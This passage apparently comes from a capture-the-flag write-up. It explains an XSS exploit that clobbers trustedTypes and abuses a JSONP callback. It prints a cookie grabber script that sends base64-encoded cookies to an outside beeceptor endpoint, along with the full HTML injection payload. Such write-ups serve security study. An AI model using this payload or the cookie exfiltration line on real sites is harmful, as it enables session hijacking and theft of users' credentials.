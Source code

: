 ![remote_script.png](remote_script.png)

So you can create two endpoints:
* `/evil/` that will be called by the `jsonp` method and will return a cookie grabber script;
* `/cookie/` that will be called by the cookie grabber script to exfiltrate cookies.

The cookie grabber script is the following. You have to set `Content-Type: application/javascript`.

```javascript
document.location='https://m3ssap0.free.beeceptor.com/cookie/'+btoa(document.cookie)
```

So the final payload to submit is the following.

```html
theme=dark.min.css"><form id=trustedTypes><output id=defaultPolicy>true</output></form><a id=x href=https://<REDACTED>.free.beeceptor.com/evil/></a><a id=callback href=//%250Ajsonp(x);></a><"
```

Under the `/cookie/` endpoint you will find the base64 encoded cookies with the flag.

![endpoints.png](endpoints.png)
